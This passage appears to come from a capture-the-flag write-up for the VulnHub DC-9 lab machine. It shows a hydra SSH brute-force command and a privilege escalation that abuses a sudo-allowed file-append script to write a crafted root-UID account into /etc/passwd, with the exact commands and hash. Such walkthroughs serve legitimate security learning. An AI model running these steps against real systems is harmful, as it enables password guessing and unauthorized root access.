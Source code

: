 re-crack
`hydra -L loot/user.txt -P loot/password.txt ssh://192.168.43.182 -t 10 -I | tee loot/re-brute-ssh.txt`

![8ae2f1c4882bc715afa58b0963675444.png](/images/vulnhub/dc-9/353b6719afef45918759724423e2ba61.png)



![3eb01de1d5bd22627a96e4e9c207cce9.png](/images/vulnhub/dc-9/3e864d32b1cd4ae1853395fe5f700589.png)



## Privilege Escalation

![cb198c4b70e0394f364429ae2b30e181.png](/images/vulnhub/dc-9/4f742577602440a59473892fb0794f6e.png)


![9261d95fc3ba82e8bd146a63b89de750.png](/images/vulnhub/dc-9/6f000d0e669347ccb067b290558e008b.png)


```python
#!/usr/bin/python                                                               
               
import sys                                                                
if len (sys.argv) != 3 :                                         
    print ("Usage: python test.py read append")                
    sys.exit (1)                                                 
else :                                                           
    f = open(sys.argv[1], "r")                                   
    output = (f.read())   
    f = open(sys.argv[2], "a") 
    f.write(output)
    f.close()
```

So basically what this script do is, first it have 2 arguments that it can accept. Then it will read one from first argument then append it to the next one. 

To gain root, lets create new account, let it append to the /etc/passwd and get root.  


```bash
fredf@dc-9:~$ openssl passwd -1 -salt fyezool fyezool
$1$fyezool$.vWu.gTMGAKT73babJKR00
```


Add new user:password:root/bash

`fyezool:$1$fyezool$.vWu.gTMGAKT73babJKR00:0:0:root/root:/bin/bash`

![c71999019c3719036624e324653e147c.png](/images/vulnhub/dc-9/8d3c5497dcdf4009bedcc1b05cf9a8eb.png)

Now, run `sudo /opt/devstuff/dist/test/test abc.txt /etc/passwd` 

To check if the new user is added, just run `cat /etc/password | grep fyezool`
![122537428c8edba8196e83740ae9fccc.png](/images/vulnhub/dc-9/5627f1900e2f4ab390356d814c587195.png)
